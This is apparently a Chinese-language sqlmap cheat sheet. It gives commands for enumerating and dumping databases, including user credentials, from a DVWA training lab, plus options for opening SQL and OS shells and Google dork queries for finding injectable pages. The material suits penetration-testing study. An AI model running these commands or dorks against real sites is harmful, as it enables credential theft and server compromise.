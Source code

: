 ##### 数据获取

```shell
--user
--current-user
--dbs
--current-db
-D "database_name" --tables
-D "database_name" -T "table_name" --columns
--dump-all
--dump-all --exclude-sysdbs
-D "database_name" -T "table_name" -C "username,password" --dump


sqlmap -u "http://192.168.19.129/dvwa/vulnerabilities/sqli/?id=111&Submit=Submit" --batch --cookie="PHPSESSID=rj9lgkc4peuukqjn4hiuqdjvo5;security=low;acopendivids=swingset,jotto,phpbb2,redmine;acgroupswithpersist=nada" -p id --users

sqlmap -u "http://192.168.19.129/dvwa/vulnerabilities/sqli/?id=111&Submit=Submit" --batch --cookie="PHPSESSID=rj9lgkc4peuukqjn4hiuqdjvo5;security=low;acopendivids=swingset,jotto,phpbb2,redmine;acgroupswithpersist=nada" -p id -D "dvwa" --tables

sqlmap -u "http://192.168.19.129/dvwa/vulnerabilities/sqli/?id=111&Submit=Submit" --batch --cookie="PHPSESSID=rj9lgkc4peuukqjn4hiuqdjvo5;security=low;acopendivids=swingset,jotto,phpbb2,redmine;acgroupswithpersist=nada" -p id -D "dvwa" -T "users" --columns

sqlmap -u "http://192.168.19.129/dvwa/vulnerabilities/sqli/?id=111&Submit=Submit" --batch --cookie="PHPSESSID=rj9lgkc4peuukqjn4hiuqdjvo5;security=low;acopendivids=swingset,jotto,phpbb2,redmine;acgroupswithpersist=nada" -p id -D "dvwa" -T "users" -C "username,password" --dump
```



##### 提权操作

```shell
--sql-shell
# 与数据库进行交互
--os-shell
# 与操作系统进行交互，但需要对网站目录有写权限，否则无法创建os-shell
--cmd-shell

sql-shell> select * from users;
```



#### 注入点检索

通过Google搜索可能存在注入的页面

```shell
inurl:.php?id=
inurl:.jsp?id=
inurl:.asp?id=
inurl:/admin/login.php
inurl:.php?id= intitle:美女
```
